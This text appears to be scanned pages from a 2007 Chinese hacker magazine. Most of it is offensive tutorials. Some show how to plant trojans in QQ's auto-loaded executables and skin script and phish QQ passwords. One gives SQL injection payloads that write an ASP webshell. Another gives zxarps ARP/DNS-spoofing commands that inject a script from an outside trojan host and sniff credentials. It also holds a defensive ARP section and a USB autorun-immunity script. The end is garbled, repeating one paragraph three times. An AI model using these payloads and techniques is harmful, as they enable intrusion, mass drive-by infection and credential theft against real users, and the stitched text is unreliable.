- Microsoft Office 2000 Service Pack 3
- Microsoft Word 2000
- Microsoft Office XP Service Pack 3
- Microsoft Word 2002
- Microsoft Office 2003 Service Pack 2
- Microsoft Word 2003
- Microsoft Word Viewer 2003
- Microsoft Office 2004 for Mac
- Microsoft Works Suite:
- Microsoft Works Suite 2004
- Microsoft Works Suite 2005
- Microsoft Works Suite 2006

微软的安全公告：  
http://www.microsoft.com/china/technet/security/bulletin/MS07-024.mspx

## MS07-023: Microsoft Excel 允许远程执行代码漏洞

漏洞的影响：远程执行代码 最高严重等级：严重

受影响的软件：

- Microsoft Office 2000 Service Pack 3
- Microsoft Excel 2000
- Microsoft Office XP Service Pack 3
- Microsoft Excel 2002
- Microsoft Office 2003 Service Pack 2
- Microsoft Excel 2003
- Microsoft Excel 2003 Viewer
- 2007 Microsoft Office System
- Microsoft Office Excel 2007
- 针对 Word、Excel 和 PowerPoint 2007 文件格式的 Microsoft Office 兼容包
- Microsoft Office 2004 for Mac

微软的安全公告：  
http://www.microsoft.com/china/technet/security/bulletin/MS07-023.mspx

# 加固肉鸡，你用 QQ 了吗？

> 肉龙首语：  
> 六月份了，又要到高考的时间了，同学们准备得怎么样了？不要为了技术而抛弃学业哦。在这里祝广大考生考试顺利，进入自己理想的大学吧。

佚名

- 从本文你可以学到：
- 一、了解到 QQ 存在的某些安全隐患
- 二、利用这些隐患来加固和利用你的肉鸡

自古以来，QQ 就是兵家的必争之地，原因不需要多说了。而 QQ 在安全方面从来也没让我们省心过。账号的安全问题这里就不多说了，下面就跟我一起看看 QQ 潜在的一些安全隐患吧。这些问题如果你好好利用，会有很好的效果，比如说用在肉鸡加固上，让病毒木马和 QQ 结合一起，那你的肉鸡就再也不会丢了。文章以 qq2006beta3 为例。

## 一、自身加载程序的问题

首先，由于 QQ 程序整体结构比较复杂，这就给一些病毒木马留下了一个环境优美的“庇护所”。最简单的例子，就是在 QQ 目录下有一个名字为“TIMPlatform.exe”的文件，如图 1。这个文件是每次由 QQ 主程序启动时自动加载的，并且这个程序是否运行对我们的正常使用没有一点影响。这就给我们一个机会，如果我们用一个木马替换掉这个“TIMPlatform.exe”呢？如果你这个木马是免杀的，那你的肉鸡就跑不掉了，这可是真正的无服务无启动项的启动方式哦。而事实上现在已经有一个病毒采用这种启动方式了。（但是它有个缺陷就是会自动给这个文件加上隐藏属性，而原来这个文件是没有隐藏属性的，画蛇添足了，呵呵）。
看来以后查病毒的时候又要多注意一个地方了。不过这不是终结，而只是刚刚开始，你要注意的地方有很多很多。因为 QQ 主程序在加载其他附属程序时都没有进行有效的效验，所以我们可以替换任意 QQ 文件夹下的 exe 文件为我们的木马文件，这样 QQ 在加载相应功能的时候就会运行我们的木马了。例如聊天室“ChatRoom.exe”，QQ 音乐“QQMusic.exe”等，但替换这些程序有一个弊端，就是必须要用户点击 QQ 面板上相应的功能按钮才能启动你的木马，这样就大大降低了木马启动的几率。（后文会给出解决方案）。
所以这里我推荐两个程序用来替换，一个就是上文提到过的“TIMPlatform.exe”，这个文件是在 QQ 刚启动时就会被加载的，还有一个就是“QQExternal.exe”，图标是企鹅加上一个小喇叭，这是 QQ 广告程序，就是每次登录 QQ 大约 5 分钟后就会弹出来的那个网页窗口，如图 2 所示。替换这个程序也可以做到每次都启动。并且 QQ 对这个程序做了检测，但不完美，如果你替换了，到了弹出广告的时间，QQ 会运行你的木马，然后，过了几秒钟，QQ 检测到这个广告程序有问题，他会重新弹出一个正常的广告窗口（估计是有一个备份），这样对用户来说一切都很正常。

可能有的朋友要郁闷了，在肉鸡上，查找对方 QQ 的安装位置可不是个轻松的事情啊，这里给大家介绍一个简单的命令吧，它就是“replace”，这是一个系统自带命令，用来替换文件的。如果我们的木马在 C 盘根目录下，那我们把木马命名为“QQExternal.exe”，然后只要用命令“replace /R /S c:\QQExternal.exe c:\”就可以将 C 盘下（包括所有子目录）所有的名为“QQExternal.exe”的文件都会被替换为我们的木马，如图 3 所示。（“replace 会自动搜索替换”）
## 二、皮肤文件的安全隐患

这点可能你并没有注意到，我们以 2006 初始的皮肤为例，这个皮肤文件是放在 QQ 安装目录下的“NewSkins\QQ2006”文件夹下的。打开这个文件夹你会发现这里除了有皮肤所用的图片文件之外，还有一个 VBS 脚本，名字是“VBScript.vbs”，如图 4。这个脚本是用来控制皮肤的各个元素在程序中的显示位置的。它不仅定义了图片的显示状况，还定义了 QQ 程序中各个按钮的动作。这就是问题的关键。
还记得上文说，我们如果想要用木马替换聊天室“ChatRoom.exe”有弊端，就是必须用户点击面板上的聊天室按钮才能启动我们的木马。但现在有了一个方案，就是利用这个“VBScript.vbs”中对按钮动作的定义。先把“ChatRoom.exe”替换成你的木马，然后大家找到你电脑里的这个“VBScript.vbs”，打开看看，内容如下。

```vbscript
Dim UserNum
Dim UserStatus
Dim Path
Dim strQQMailTip
Dim ShowStatus
Dim foldbottom
Dim bMsgInside
Dim CurrentWidth
Dim CurrentHeight
Dim PlugMngHeight
Dim PlugCloseState
Dim PetState
Dim ntopdistance

' 注释

Sub Window_OnInit()
    Window.GetScriptVersion "1.0"
    UserStatus = "(离线)"
    Path = "NewSkins\2006"
    ShowStatus = 1
    UserNum = "0"
    If 1 = ShowStatus Then
        UserNum = UserNum + UserStatus
    End If
    strQQMailTip = ""
    bMsgInside = 0
    PlugCloseState = 0
```

```
PetState = 1
End Sub
```

这里只列出了里面的第一个函数“Window_OnInit()”。从这个名字聪明的你也应该想到了这个函数是干什么的，对，这就是在皮肤加载时的初始化函数，也就是说，当 QQ 启动的时候，这个函数里的代码将直接被执行。再往下看。

下面的按钮组

```
Sub MobileMsgButton_onClick()
 Window.ExeCommand 4,2
End Sub

Sub GameButton_onClick()
 Window.ExeCommand 4,5
End Sub

Sub TTButton_onClick()
 Window.ExeCommand 4,4
End Sub

Sub ChatRoomButton_onClick()
 Window.ExeCommand 4,1
End Sub

Sub MenuButton_onClick()
 s = CStr(MenuButton.Left)& "." &CStr(MenuButton.Top)
 Window.ExeCommand 5,s
End Sub

Sub MsgManagerButton_onClick()
 Window.ExeCommand 4,6
End Sub

Sub SearchButton_onClick()
 Window.ExeCommand 4,3
End Sub
```

这就是QQ对按钮动作的定义，不难看出，**QQ对按钮的定义是采用“Window.ExeCommand x,x”的方式的**（也许是自定义对象吧）。其中不同的数字激发不同的按钮事件，可以看出，**开启聊天室的调用方式就是“Window.ExeCommand 4,1”**。这样的话我们将这个脚本稍作修改，把这个调用添加到初始化函数中，这样每次 QQ 启动就会自动点击一次聊天室按钮，从而自动启动木马。好了问题解决。修改后的函数如下：

```
Sub Window_OnInit()
 Window.GetScriptVersion "1.0"
 UserStatus = "(离线)"
 Path = "NewSkins\2006"
 ShowStatus = 1
 UserNum = "0"
 If 1 = ShowStatus Then
  UserNum = UserNum + UserStatus
 End If
 strQQMailTip = ""
 bmsginside = 0
 PlugCloseState = 0
 PetState = 1

 Window.ExeCommand 4,1

End Sub


```

当然这只是一个小应用，QQ 还有很多不完善的地方，可以让我们做一些更好玩的事情，比如在这个初始化函数中写上“上线”代码你就永远不能隐身登录，写上“网络硬盘”的事件你一
登录就自动打开网络硬盘，写上一句“关闭”按钮的代码你就永远别想用 QQ 了。再比如利用社会工程学，让别人乖乖地把他的 QQ 密码告诉我们。

大家用过 QQ 小秘书吗？我们就利用一下它吧。你打开小秘书你会发现，其实它显示的是一个 web 页，如图 5。而 QQ 是会把这个页面存储在你本地的，**位置是在“你的 QQ 号码目录 \HostAlertData \ Welcome.htm”**，如图 6。

这个文件会在你下次启动小秘书功能时被重写，然后小秘书会直接加载显示这个网页。问题就是 QQ 没有检查这个文件的属性，如果我们改变了这个文件的内容，比如把它换成 google 的源代码，然后将这个 **“Welcome.htm”设置为“只读”**，这样下次你打开“小秘书”的时候，里面显示的内容居然变成了 google 了！如果我们做一个钓鱼网页，只需把 QQ 更改密码的那个网页复制下来，修改一下将 POST 的地址改为我们自己的空间，然后在上面写“系统检测到您的号码多次在不同的地方同时登录，建议您立即更改密码”。把修改好的代码存为这个 Welcome.htm，这样别人下次打开小秘书的时候就会出现这个修改密码的网页，本来就是 QQ 内置的页面，你再做得像一点，谁会怀疑呢？如图 7 所示。
下面的问题就是我们怎样让用户进入“小秘书”，还是利用那个 vbs 脚本，这次这样修改，找到这行：

```
Sub MsgManagerButton_onClick()
 Window.ExeCommand 4,6
End Sub


```

这就是“信息管理器”的控制脚本，就是“查找”旁边那个“小喇叭”按钮，如图 8。
我们把它改成这样子：

```
Sub MsgManagerButton_onClick()

 if iffirst<>"1" then
  Window.ExeCommand 15,1
  iffirst="1"
  MsgManagerButton.StopFlash
 else
  Window.ExeCommand 4,6
 end if

End Sub
```

然后在初始化函数中加入一句“MsgManagerButton.Flash 30”, 最终结果如下:

```
vbscript
Sub Window_OnInit()
    Window.GetScriptVersion "1.0"
    UserStatus = "(离线)"
    Path = "NewSkins\2006"
    ShowStatus = 1
    UserNum = "0"
    If 1 = ShowStatus Then
        UserNum = UserNum + UserStatus
    End If
    strQQMailTip = ""
    bmSginside = 0
    PlugCloseState = 0
    PetState = 1

    MsgManagerButton.Flash 30

End Sub


```

这样达到的效果就是在登录 QQ 后，系统消息那个小喇叭就开始闪烁，像来了系统消息一样，然后用户就会点那个小喇叭，这时就会打开小秘书窗口提示你修改你的密码了，别人一定以为是TX给你发过来的消息。然后小喇叭恢复正常，再点击打开的就是正常的“系统消息”。再聪明的人也很难察觉有问题。在你的肉鸡上这样搞一下，看看肉鸡的主人会不会自觉地把他的QQ密码告诉你呢?

现在最新的QQ2007的皮肤也存在这个“VBScript.vbs”脚本，并且跟之前版本的大致相同，QQ的程序结构似乎不会改变了，也可以说这个脚本会在几乎所有的QQ皮肤上找到。你可以自己修改它们。当然了，要实现这些效果，不一定要你亲手去操作，做一个小程序完成文中的所有操作是很简单的事情。

当然，这个脚本中可以利用的地方还有很多，本文在这里只起到一个抛砖引玉的作用，大家仔细研究肯定会有很多惊喜的。

> **编辑点评：**现在上网做的第一件事就是开小Q，利用小Q来加固肉鸡是个不错的想法，但这种方法也有弊端，如果对方重装QQ的话……所以说这只是一个辅助的技巧，你可以利用这些问题做一些好玩的事情。

# 注射入侵全攻略

winstear 超奕工作室[cglst.cn]

本教程入侵思路及流程:

- 1、寻找并获得具有一定权限的注射漏洞网站
- 2、找出注射漏洞网站一般分两种数据库类型（mssql 和 access），那么不同的数据库类型当然需要不同的入侵方法。

入侵 mssql 数据库：

一是通过注射点爆出管理员用户和密码，找出后台登录，进一步提升权限。

二是通过注射点猜解网站所在服务器上的物理路径，从而进行差异备份插入一句话木马客户端，获得 webshell 后进一步进行权限提升。

入侵 access 数据库：

对于这种数据库就只能是去爆管理的用户密码，或者其他用户资料，然后进行后台登录。

成功登录后台后获取 webshell 的方法一般是：

1、cookie 欺骗，上传 asp 后门，如果能直接上传 asp 马那算你运气好。
2、在无法上传 asp 后门的情况下，上传图片文件后利用数据库操作功能备份成 asp 格式。

在网络安全攻与防之间有一门很重要的学问和艺术，那就是社会工程学! 社会工程学就是使人们顺从你的意愿，满足你的欲望。

举个例子：在你发现一台有漏洞的目标服务器却被断开网络（物理隔离），也就成了最安全的计算机，然而你却能运用这门学问说服某人（admin）把这台有漏洞的、已经隔离的计算机连上网络。

利用自己的思维去揣摩别人的心理，促使其发生非主意识的行为，运用灵活复杂的人际关系来获取想要得到的信息。如何很好地利用社会工程学，前提是对网络安全各方面都要有一定的了解和自己的认识，也就是个人的综合能力，在遇到一些问题后能够运用自己所掌握的知识和学问独立地去解决一些实际问题。

当然，入侵一个站点需要很好的运气。说运气不如说是目标服务器管理员大意疏忽所造成的一些漏洞和 bug 被你挖掘到了。

下面我们就将进入正题，实例中需要运用到的工具：NBSI3、啊 D-SQL 注射工具、明小子 web 综合检测工具等。

# 一、通过 baidu、google 简单找注射漏洞网站

进入 baidu 或 google 的高级搜索选项，以 baidu 为例，如图 1。
我们要搜索的内容是被 baidu 收录的，具有“黑客”关键字的网站连接地址并且含有“asp?”的网址（URL）。可以从中寻找具有注射漏洞的网址，例如 http://www.xxx.asp.com/show.asp?id=1

# 判断能否进行 SQL 注入：

我们直接在后面加单引号’，如果返回出错页面或存在注射点。如果网站管理员对 sql 注入有点了解，把单引号过滤掉了，你用单引号测试，是测不到注入点的。

那么哪种判断方法准确呢? 下面就是为你介绍的经典 1=1、1=2 测试法了。请看下例：

- 1、http://www.xxx.asp.com/show.asp?id=1
- 2、http://www.xxx.asp.com/show.asp?id=1 and 1=1
- 3、http://www.xxx.asp.com/show.asp?id=1 and 1=2

看上面三个网址分别返回的结果，从中可以知道是否可以注入：

- 1 正常显示
- 2 正常显示，内容基本与 1 相同
- 3 返回出错页面或提示找不到记录、或显示内容为空。

不可以注入就比较容易判断了，1 同样正常显示，2 和 3 一般都会有程序定义的错误提示，或提示类型转换时出错。可以用一些注射相关的工具自行判断注射点，如图 2。

# 二、入侵思路及过程

# 1、access 数据库:
以工具为例，注射爆出管理员用户及密码（一般 MD5 加密），如图 3。进入 http://www.xmd5.com/ 或 http://www.cmd5.com/ 网站对 md5 密文进行猜解，当然也可以尝试暴力破解。得到解密后的密码如图 4。找出后台地址，登录后台，获取 webshell，如图 5。
# 2、mssql 数据库：

暴管理员密码和 access 数据库类似，这里就不多讲。sql 注射中如果把 sa 等同于 administrator 的话，DB_OWNER 角色相当于 user 权限。Sa 权限既然就是 administrator，那提权就不多讲了，这里讲一下相当于 user 的 DB_OWNER 权限获得 webshell 的方法。

以前通常用 backup，但是如果对于大站，由于数据库的庞大，成功率可想而知。后来有了差异备份，将马的代码插入到数据库中，然后备份前后数据的差异部分。这样直接将数据库备份，在体积上大大缩小了，然而数据库内的一些数据由于偶然与备份后的代码冲突而出错，导致失败，成功率仍然很低。现在最有效的方法是导出日志获得 webshell。

先要了解 DB_OWNER 权限下通过以上方法获取 webshell 的一些必要条件：

- ①Web 和数据库在同一服务器
- ②已经得到网站绝对路径
- ③你要备份到的目录有写的权限
- ④有 backup 的权限

下面通过实例进行讲解：

注射点：http://www.xxxxx.dk/off_vis_film.asp?id=154，用工具啊 D 检测情况，如图 6。
接下来试一试列目录的功能，如果能列目录，仔细找，只要不是数据库与 web 分离的，就能找网站目录。这是个苦力活，耐心点……相关命令语句如下：

```sql
alter database ZZZZ set RECOVERY FULL
create table cmd (a image)
backup log ZZZZ to disk = 'c:\Sammy' with init
insert into cmd (a) values ('<%Execute(request("a"))%>')
backup log ZZZZ to disk = 'c:\web\ma.asp'
```

（这里的 ZZZZ 表示数据库名；c:\web\ 表示网站绝对路径；<%Execute(request("a"))%> 为一句话马）

实际操作过程中，我们把字符转换一下：
先执行: alter database XXXX set RECOVERY FULL ?
? ? ? ? ? ? ? // 把数据库日志备份类型转换为 int

第一步：新建一个临时表

```sql
create table [dbo].[shit_tmp] ([cmd] [image])--
```

第二步：备份数据库日志

```sql
declare @a sysname,@s nvarchar(4000) select @a=db_name (),@s=0x633A5C53616D6D79 backup log @a to disk = @s with init,no_truncate — (0x633A5C53616D6D79 = c:\Sammy)
```

第三步：插入一句话马

```sql
Insert into [shit_tmp](cmd) values(0x3C254578656375746528726571756573742822612229253E)— (0x3C254578656375746528726571756573742822612229253E = <%Execute(request("a"))%>)
```

第四步：导出日志到网站目录下

```sql
declare @a sysname,@s nvarchar(4000) select @a=db_name (),@s= 0x63003A005C007800780078005C0032002E00610073007000 backup log @a to disk=@s with init,no_truncate — (0x63003A005C007800780078005C0032002E00610073007000 = c:\web\ma.asp)
```

第五步：删除临时表

```sql
Drop table [shit_tmp]--


```

现在已经有人写出了工具 getwebshell，如图 7。
## 弹指间，十万肉鸡上线——arp 挂马技术初探

风尘浪子 [E.S.T]

## 从本文你可以学到：

- 1、arp 欺骗挂马
- 2、利用工具阻击 arp 欺骗

arp 欺骗挂马技术是最近新兴的一种挂马技术，由于这方面的一些技术细节在网络上没有公开，所以这种技术一直仅仅被某些高手掌握，一些新手可能还没有听说过。而 arp 挂马技术危害很大，“杀人”于无形之中，可以称得上是挂马技术的最高境界。掌握它，你可以轻松获得大量肉鸡，而从安全的角度讲，arp 欺骗挂马是一个重量级炸弹。如果你是一名管理员，那就一定不能掉以轻心了，比如著名的落伍者论坛就曾经被人用 arp 挂马技术挂过马，而且有些病毒开始利用 arp 挂马技术进行传播。

在这里，我不想再详细地讲解 arp 欺骗的原理，如果你对这方面的技术不是很了解，建议查阅相关资料。如果你理解了相关的原理，那么学习 arp 挂马技术也将得心应手，事半功倍！

通常 arp 欺骗的攻击方式是在同一 VLAN 下，控制一台主机来监听密码，但这样存在局限性：

- 1、管理员经常不登录，那么很久才能监听到密码。
- 2、目标主机只开放了 80 端口和一个管理端口，且 80 上只有静态页面，那么很难利用。而管理端口，如果是 3389 终端，或者是 ssh2，那么非常难监听到密码。

## 优点：

- 1、可以不用获得目标主机的权限就可以直接在上面挂马，可以获得大量的肉鸡。
- 2、非常隐蔽，

- -logfilter [string] 设置保存数据的条件，必须+-做前缀，后跟关键字，“，”隔开关键字，多个条件用“||”隔开，所有带+前缀的关键字都出现的包则写入文件，带-前缀的关键字出现的包不写入文件，带_前缀的关键字一个符合则写入文件（如有+-条件也要符合）
- -save_a [filename] 将捕捉到的数据写入文件，ASCII 模式
- -save_h [filename] HEX 模式
- -hacksite [ip] 指定要插入代码的站点域名或 IP，多个可用“，”隔开，没指定则影响所有站点
- -insert [html code] 指定要插入的 html 代码
- -postfix [string] 关注的后缀名，只关注 HTTP/1.1 302
- -hackURL [url] 发现关注的后缀名后修改 URL 到新的 URL
- -filename [name] 新 URL 上有效的资源文件名
- -hackdns [string] DNS 欺骗，只修改 UDP 的报文，多个可用“，”隔开

## 嗅探密码：

```
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.50 -port 80 -logfilter "+POST, +user, +pass" -save_a sniff.log
```

## arp挂马：

```
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.99 -port 80 -insert "<iframe src='xx' width=0 height=0>"
```

## DNS 欺骗：

```
zxarps.exe -idx 0 -ip 192.168.0.55, 192.168.0.66 -hackdns "www.aa.com|222.22.2.2, www.bb.com|1.1.1.1"
```

现在我在自己的办公室做实验，我的 ip 是 192.168.8.14，网关是 192.168.8.254。

```
Physical Address: 00-05-5D-5E-75-3E
Dhcp Enabled: No
IP Address: 192.168.8.14
Subnet Mask: 255.255.255.0
Default Gateway: 192.168.8.254
DNS Servers: 192.168.8.8
```

我用旁边 mm 的机器来做实验，ip 是 192.168.8.54，首先测试 arp 挂马：

```
zxarps.exe -idx 0 -ip 192.168.8.13-192.168.8.80 -port 80 -insert "<iframe src='http://www.baidu.com' width=0 height=0>"


```

这里 -idx 0 是网卡索引号，我只有一块网卡；-port 80 表示关注 80 端口传输的数据；<iframe src='http://www.baidu.com' width=0 height=0> 是这里的挂马语句。

执行以上命令的时候，有时候会扫描不到 alive host，或者扫描到的 alive host 很少，这个时候大家改变一下 ip 范围，多试几次就行了。运行后会显示 sniffing...，如图 2。
这个时候我到旁边 192.168.8.54 的机器上随便打开一个网站就会发现木马被插入到我们要访问的网站里面了，如图 3。

这里要说两点：
第一：执行以上挂马命令后，192.168.8.13 到 192.168.8.80 之内的所有 IP 访问任意网站，只要是 80 端口，网站里面就会被插入挂马代码。如果 192.168.8.13 到 192.168.8.80 之内某一台是服务器，对外开放 80 端口，那么外部的用户只要是访问了这台服务器开放的网站，用户访问到的页面里面也会被插上木马，而这台服务器网站的源码里面是没有任何挂马的 html 语句的。
相信许多人可能对这里不是十分了解，呵呵！体会到 arp 挂马的优势了吗？如果我们攻陷了一台网络服务器，在上面搞 arp 挂马，可以想想，同网关下面还有其它服务器，一个服务器上面有很多个网站，每个网站都有自己的一批浏览者……试想假如我们碰到了，流量大的网站，再加上我们的网马跑得快，那么弹指之间，十万肉鸡上线，还会是神话吗？

第二：不知道大家发现没有，我们挂上 <iframe src='http://www.baidu.com' width=0 height=0> 这样的代码后，会导致被插的网站显示为空白。所以我们以后挂马不要用这个代码，推荐使用 js 挂马。js 挂马其实很简单，新建建立一个 js 文件，写入如下代码：
document.write("<iframe src=http://www.156544632.cn/fclz.htm width=0 height=0></iframe>")

注意里面的 http://www.156544632.cn/fclz.htm 就是你的网马地址，这个网马怎么做就要看个人能力了。推荐比较稳定，目前中马率依然很高的 06014 免杀网马（稿件附带一个本人以前为 sophia 写过的一个生成器，请允许我在这里纪念一下好朋友 sophia！）把这个 js 放到网上，比如网址是 http://www.156544632.cn/mm.js，那么我们 arp 挂马的时候就这样写命令：

```
zxarps.exe -idx 0 -ip 192.168.0.2-192.168.0.99 -port 80 -insert "<script language=javascript src=http://www.156544632.cn/mm.js></script>"


```

如图 4，挂 js 的效果，网页可以正常显示。
其实 zxarps.exe 的功能还远不止这些，这里再讲一下里面另外一个重要功能，那就是 DNS 欺骗。关于 DNS 欺骗的原理，简单地说起来就是让一台机器访问 www.aaa.com 时变成访问的是 www.bbb.com，这个 www.bbb.com 是我们设置的，可以是一个网马地址。这样说，大家应该明白了吧？dns 欺骗的命令是：

```
zxarps.exe -idx 0 -ip 192.168.8.13-192.168.8.80 -hackdns "www.baidu.com|192.168.8.14, www.156544632.cn|192.168.8.14"


```
执行命令后，出现如图 5 画面，这样 192.168.8.13-192.168.8.80 范围里面的所有用户，当他们访问 www.baidu.com，或者访问 www.156544632.cn 的时候，实际访问到的页面是 192.168.8.14。这里的 192.168.8.14 就是我的本机了，我可以把自己的默认网站做成网页木马，那么 192.168.8.13-192.168.8.80 范围里面的用户访问 http://www.156544632.cn 的时候，实际访问到的页面是 http://192.168.8.14，如图 6。zxarps.exe 的 dns 欺骗
功能比 cain 的 dns 欺骗功能要更好使，吐血推荐。

此外，zxarps.exe 还有一个重要的功能，那就是嗅探密码账号。zxarps.exe 嗅探到的数据包都会记录下来，非常杂乱，而且时间一长，嗅探到的东西会很多，这方面 cain 比它要好用很多。当然这里我还是系统地讲讲嗅探密码账号的方法（如图 7，图 8），命令：
东西会很多，这方面 cain 比它要好用很多。当然这里我还是系统地讲讲嗅探密码账号的方法（如图 7，图 8），命令：

```
zxarps.exe -idx 0 -ip 192.168.8.13-192.168.8.80 -port 80 -logfilter "+POST, +username, +password" -save_a qq156544632.log
```

这个命令是监听 192.168.8.13-192.168.8.80 里面的所有机器的 80 端口，关注含有 post、username、password 等字段的数据包，然后将捕捉到的数据以 ASCII 模式写入同目录下面的文件 qq156544632.log。大家自己测试的时候修改相应的参数就可以了，比如嗅探 ftp 密码，则端口应该改成 21，命令改成：

```
zxarps.exe -idx 0 -ip 192.168.8.13-192.168.8.80 -port 21 -spoofmode 2 -logfilter "_USER, _PASS" -save_a qq156544632.log


```

还是不推荐用 zxarps.exe 来嗅探密码，它的功能更适合用来做 arp 挂马或者 dns 欺骗。如图 9，我嗅探到的数据。

zxarps.exe 的功能还有很多，其他多方面的利用以及深层次的研究就靠大家了，希望大家不要利用该工具做一些非法的事情，不要为了肉鸡而铤而走险。肉鸡总会有的，而后悔药却不一定有（这里为好朋友 sophia 惋惜一下）。

最后，我总结一下 arp 有关攻击的预防措施。当你发现网络异常时，在“开始→程序→附件”菜单下调出“命令提示符”，输入并执行 ipconfig 命令，记录网关 IP 地址，即“Default Gateway”对应的值，例如“192.168.1.1”。再输入并执行 arp -a 命令，在“Internet Address”下找到上步记录的网关 IP 地址，记录其对应的物理地址，即“Physical Address”值，例如“00-01-02-03-04-05”。在网络正常时，这就是网关的正确物理地址，在网络受“ARP 欺骗”木马影响而不正常时，它就是木马所在计算机的网卡物理地址。
正常时，它就是木马所在计算机的网卡物理地址。

零时解决办法：
新建一个批处理文件，内容如下：

```
@echo OFF
arp -s 默认网关 IP 地址 网关的 MAC 地址
```

编写完成后将这个批处理放到启动里并重新启动电脑。也有一个叫 Anti ARP Sniffer（也叫 arp 防火墙）的，专门针对 arp 攻击的软件可以解决这些问题，如图 9。

- 1、开启 Anti ARP Sniffer，输入网关 IP 地址，点击“获取 MAC”，如果你网关填写正确就会显示出网关的 MAC 地址。
- 2、点击“自动保护”即可保护当前网卡与网关的通信不会被第三方监听。

Anti ARP Sniffer 还可以追踪 ARP 攻击者，当局域网内有人试图与本机进行 ARP 欺骗，其数据会被 Anti ARP Sniffer 记录。在欺骗数据详细记录表中选择需要追踪的行，然后点击“追捕欺骗机”，追捕过程需要几分钟时间，如果该 ARP 地址是真实的，很快就能追捕到攻击者。这里注意一下：追捕 ARP 攻击者时需要停止自动保护。

> **编辑点评**：通过本文大家不仅可以了解到 arp 攻击的恐怖，也能学到如何保护自己的方法。总之，知识是无价的，但不可用学到的知识来做违法的事情，请大家一起为作者的好朋友 sophia 惋惜……

# 神奇 VBS 之旅——VBS 下的 U 盘免疫

- 从本文你可以学到：
一、简单了解 VBS
二、利用 VBS 制作 U 盘病毒免疫程序

近期 U 盘病毒又流行起来了，广大的菜鸟同胞们是不是已经头痛不已了呢？不用担心，菜鸟自然也有菜鸟对付病毒的办法。下面就让我们来用一个简单的 vbs 脚本打造一个 U 盘病毒的免疫程序，让你的 U 盘永远不会被病毒感染，顺便粗略地了解一下，什么是 VBS。

### 什么是 VBS 呢？ VBS 的全称是：Microsoft Visual Basic

> 风飘雨：不知道是不是新事物总有不完善的地方，像 Ubuntu 7.04，发布之前对它总是想入非非，用过之后就在想当初为什么想入非非。还是 6.10 要稳定得多。IPv6 也发现了拒绝服务漏洞，正在紧张的修补中，看来最新的东西不一定是最好的，无论是什么东西，其实只要是适合自己的就是最好的，没有必要一味去追求最新的。Win98 不是还有很多用户吗？

Script Editon，通常还简称为 VBScript。它是基于 Visual Basic 的脚本语言，所谓脚本语言，就是说它不需要编译成二进制文件，而是直接以源码的形式存在，并且由宿主程序来解释执行。因为它的代码是文本形式的，所以你可以用任何一款编辑器来编辑它，比如记事本。而它的语法很像 VB（Visual Basic），也可以说是相同。

VBS 了解了，再看看怎样来免疫 U 盘病毒吧，U 盘病毒的传播原理是在你的 U 盘里写一个“autorun.inf”文件和病毒文件，当你再把这个 U 盘插入到别的电脑时，默认情况下，系统会自动检测 U 盘里是否含有这个“autorun.inf”文件，有的话就按照它里面的内容执行，当然就会执行病毒了，从而达到传播病毒的目的。而我们要免疫 U 盘，只要切断这个“autorun.inf”文件就可以了。那怎样才能切断“autorun.inf”呢？

Windows 有一个特性，文件名不区分是文件还是文件夹。这样的话我们只要在 U 盘里建立一个名为“autorun.inf”的文件夹，这样当有病毒试图重写“autorun.inf”的时候，实际上它重写的是一个文件夹，当然会写入失败了。这样就可以达到免疫病毒的目的了。但我们不能把每一个 U 盘里都建立这样一个文件夹吧，那就让我们把它跟 VBS 结合起来，打造一个 U 盘病毒免疫的小脚本吧。

首先打开记事本，在里面输入代码：

```
on error resume next
dim dir
strComputer = "."
Set objWMIService = GetObject("winmgmts:" _
& "{impersonationLevel=impersonate}!" & strComputer & "\root\cimv2")
Set colMonitoredEvents = objWMIService. _
ExecNotificationQuery("Select * from Win32_VolumeChangeEvent")
Do
Set objLatestEvent = colMonitoredEvents.NextEvent
wscript.sleep 3000
if objLatestEvent.EventType=2 then
dir=objLatestEvent.DriveName & "\autorun.inf"
Set fso = CreateObject("Scripting.FileSystemObject")
FSO.DeleteFile dir, 1
fso.CreateFolder (dir)
Set objFolder = FSO.GetFolder(dir)
objFolder.Attributes = 18 'objFolder.Attributes XOR 2
end if
Loop
```

这就是整个免疫程序的全部代码了，是不是很简单？下面就来解释一下。

这段脚本开始是利用了 WMI 来监视 U 盘的插入，关于这部分大家可以查阅前几期的《手册》关于 WMI 的专题，这里就不啰嗦了。然后，当脚本发现电脑里插入了一个 U 盘的时候，执行的是这段代码：

```
dir=objLatestEvent.DriveName & "\autorun.inf"
Set fso = CreateObject("Scripting.FileSystemObject")
FSO.DeleteFile dir, 1
fso.CreateFolder (dir)
Set objFolder = FSO.GetFolder(dir)
objFolder.Attributes = 18 'objFolder.Attributes XOR 2


办呢？这里我提供给大家一个地址http://qqshow-user.tencent.com/Q秀主人号码/10/00/00.gif，填好后提交看到如图5所示。


接下来要做的就是用装饰物来装扮我们的空间了，进入空间商城，同样选择自己中意的挂件或banner，右键查看其属性得到图片地址为http://imgcache.qq.com/qzone/space_item/pre/1/14785.gif。如图7。


但这并不是图片真正的地址，我们只需将地址中的pre改为orig就行了，也就是http://imgcache.qq.com/qzone/space_item/orig/1/14785.gif。将此地址的图片下载到电脑里，再上传到其它的网站获取新的地址，然后进空间新建一个图片模块，填入我们得到的图片新地址，在更多设置中将模块背景、边框选项设置为无就可以了，如图8。


办呢？这里我提供给大家一个地址http://qqshow-user.tencent.com/Q秀主人号码/10/00/00.gif，填好后提交看到如图5所示。


接下来要做的就是用装饰物来装扮我们的空间了，进入空间商城，同样选择自己中意的挂件或banner，右键查看其属性得到图片地址为http://imgcache.qq.com/qzone/space_item/pre/1/14785.gif。如图7。


但这并不是图片真正的地址，我们只需将地址中的pre改为orig就行了，也就是http://imgcache.qq.com/qzone/space_item/orig/1/14785.gif。将此地址的图片下载到电脑里，再上传到其它的网站获取新的地址，然后进空间新建一个图片模块，填入我们得到的图片新地址，在更多设置中将模块背景、边框选项设置为无就可以了，如图8。


办呢？这里我提供给大家一个地址http://qqshow-user.tencent.com/Q秀主人号码/10/00/00.gif，填好后提交看到如图5所示。


接下来要做的就是用装饰物来装扮我们的空间了，进入空间商城，同样选择自己中意的挂件或banner，右键查看其属性得到图片地址为http://imgcache.qq.com/qzone/space_item/pre/1/14785.gif。如图7。


但这并不是图片真正的地址，我们只需将地址中的pre改为orig就行了，也就是http://imgcache.qq.com/qzone/space_item/orig/1/14785.gif。将此地址的图片下载到电脑里，再上传到其它的网站获取新的地址，然后进空间新建一个图片模块，填入我们得到的图片新地址，在更多设置中将模块背景、边框选项设置为无就可以了，如图8。


```

